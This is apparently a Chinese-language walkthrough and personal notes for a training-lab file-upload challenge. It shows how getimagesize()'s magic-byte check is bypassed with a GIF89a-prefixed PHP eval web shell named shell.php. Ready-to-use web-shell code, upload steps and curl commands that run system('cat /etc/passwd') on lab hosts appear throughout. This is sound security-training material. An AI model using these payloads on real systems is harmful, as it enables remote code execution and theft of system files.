

# getimagesize () 文件上传漏洞解题

> 
> 核心：`getimagesize()` 函数只校验**文件头部图片标识**，会读取文件前几个字节判断是不是图片，**不会校验文件后缀、不会解析 PHP 代码**。如果后端仅仅用 `getimagesize()` 判断是否为图片，没有校验文件后缀，就可以构造图片马上传执行 PHP 代码。

访问地址：`xxx/vul/unsafeupload/getimagesize.php`，页面提示：**这里只允许上传图片，不要乱搞！**，有文件选择上传按钮。

## 原理说明

1. `getimagesize($filename)`：读取文件流，识别文件头是否是 gif/jpg/png 图片，只要文件头部有图片的魔数，函数就返回图片信息，认为是合法图片；文件后面可以拼接 PHP 木马代码。
2. 很多靶场这个场景的后端逻辑伪代码：

```
if(getimagesize($_FILES['file']['tmp_name'])){
    move_uploaded_file(临时文件,上传目录.$_FILES['file']['name']);
}
```

> 
> ⚠️漏洞关键点：只检测图片文件头，**没有过滤文件名后缀**。如果上传文件名写 `shell.php`，文件头部加上 gif 图片头 GIF89a，`getimagesize` 检测通过，保存为 php 文件，访问就执行 PHP 木马。

## 方法 1：GIF 图片马（最简单，本题推荐）

1. 创建文本文件，第一行写魔数 `GIF89a`，换行写 PHP 一句话木马

```
GIF89a
<?php @eval($_POST['cmd']);?>
```

2. 将文件命名为 `shell.php`（后缀是 php，**不要改成 gif！**）

> 
> 解析：文件开头 `GIF89a` 是 GIF 图片标准文件头，`getimagesize()` 读到头部就判定这是图片，校验放行；保存后缀为 php，web 服务器会把这个文件当做 PHP 脚本解析执行里面 eval 木马。

3. 在页面 Choose File 选择这个`shell.php`上传。
4. 上传成功后页面会返回上传后的文件访问路径，类似：
`https://xxx/upload/shell.php`
5. 使用蚁剑 / 菜刀连接该地址，密码是`cmd`；或者 post 传参测试：

```
POST /upload/shell.php
cmd=phpinfo();
```

## 方法 2：图片后缀绕过（部分环境无效）

如果后端做了简单后缀白名单只允许`.gif/.jpg`，保存为`shell.gif`，此时`getimagesize`检测成功，但是服务器不会解析 gif 内的 php 代码。
这种情况需要配合**文件包含漏洞**去包含这个 gif 图片马，才能执行 PHP 代码；但本题场景靶场一般没有限制后缀，直接上传`.php`带 GIF 文件头即可。

## 踩坑排查

1. ❌直接上传纯 php 一句话（没有 GIF89a 头部）：`getimagesize()`检测失败，直接拦截，提示只允许上传图片。
2. ❌文件命名为`shell.gif`上传成功但是访问不执行代码：服务器把它当做静态图片，不解析 PHP，需要看是否允许上传 php 后缀。
3. 注意：`GIF89a`后面必须换行，不要和 php 写同一行，避免解析异常。

### 补充：其他图片魔数

- GIF：`GIF87a` / `GIF89a`
- PNG 文件头：`\x89PNG\r\n\x1a\n`
- JPG 文件头：`\xff\xd8\xff`

本题直接用 GIF89a 最简单。

### 做题完整流程小结

1. 新建文件写入：

```
GIF89a
<?php eval($_POST['a']);?>
```

2. 保存为`shell.php`
3. 在网页上传框选择该文件提交上传
4. 获取上传文件 url，POST 传参 `a=phpinfo();` 验证执行。


# =============
实操

需要改下文件后缀
https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/unsafeupload/uploads/2026/08/27/2485426a8fab367a19a872864663.png

curl -X POST https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/unsafeupload/uploads/2026/08/27/4986056a8faa41737ae603573955.jpg -d "cmd=system('cat /etc/passwd');"

curl -X POST https://f0012fbf98204f57ae3bbf2cb76c8bce--8081.ap-shanghai2.cloudstudio.club/vul/unsafeupload/uploads/2026/08/27/8627506a8ffb0f4436d7161882407.jpg -d "cmd=system('cat /etc/passwd');"

图片在服务端真实路径
/app/vul/unsafeupload/uploads/2026/08/27/8627506a8ffb0f4436d7161882407.jpg
https://f0012fbf98204f57ae3bbf2cb76c8bce--8081.ap-shanghai2.cloudstudio.club/vul/unsafedownload/execdownload.php?filename=/app/vul/unsafeupload/uploads/2026/08/27/8627506a8ffb0f4436d7161882407.jpg


当前问题，包含php代码的jpg文件上传成功，但是目前不知道怎么使用，尝试了include漏洞但是还是不行